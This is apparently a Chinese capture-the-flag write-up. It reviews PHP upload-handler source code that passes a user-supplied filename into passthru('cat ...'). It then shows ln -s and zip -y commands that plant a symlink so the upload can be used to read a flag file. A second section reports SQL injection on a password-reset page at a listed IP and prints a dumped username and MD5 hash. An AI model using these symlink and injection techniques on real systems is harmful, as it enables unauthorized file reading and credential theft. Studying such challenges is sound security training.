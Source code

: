 ```php
		{ 
			if(file_exists('includes')){ 
				move_uploaded_file($temp, "includes/uploaded/" .$name); 
				echo "Upload complete a!"; 
				shell_exec('sh /var/www/html/includes/unzip.sh');
			}
			elseif(file_exists('uploaded')){ 
				move_uploaded_file($temp, "uploaded/" .$name); 
				echo "Upload complete!"; 
				shell_exec('sh /var/www/html/includes/unzip.sh'); 
			} 
		} 
	} 
}
else{ 
	if(isset($_GET['step']) && strlen($_GET['step']) === 20) { 
		......
		if (preg_match('/[^\w\d_ -]/si', $_GET['step'])) { 
			$_GET['step'] = preg_replace('/[^a-zA-Z0-9_ -]/s', '', $_GET['step']); 
			die('error'); 
		} 
		passthru('cat ' . 'uploaded/' . $_GET['step']); 
	}
	else{ 
		die(); 
	} 
} 
	?> 

```

只能上传后缀jpg、png、和zip，且mimetype 为 application/zip，上传成功后会执行unzip操作，且还会删除uploaded/目录下所有的目录和\*.\*、.\*文件。且还能cat uploaded/目录下的文件，但文件名只能是数字字母_%20-。

这里考虑使用软链接，链上flag文件

```bash
ln -s /var/www/html/flag/flag/flag/flag/flag/flag/flag.php aassddaassddaassddaa
zip -r x.zip -y aassddaassddaassddaa
```

传入step=aassddaassddaassddaa即可，也可以直接访问uploaded/aassddaassddaassddaa。

### 工控管理系统新版本

找回密码功能存在sql注入

http://47.104.1.173:20004/findpwd.php

使用sqlmap可以注入出用户名,密码md5 2f8667f381ff50ced6a3edc259260ba9 解不出来

```
| cdwcewf2e3235y7687jnhbvdfcqsx12324r45y687o98kynbgfvds | c3tlwDmIn23 | 2f8667f381ff50ced6a3edc259260ba9 | cetc     |
```
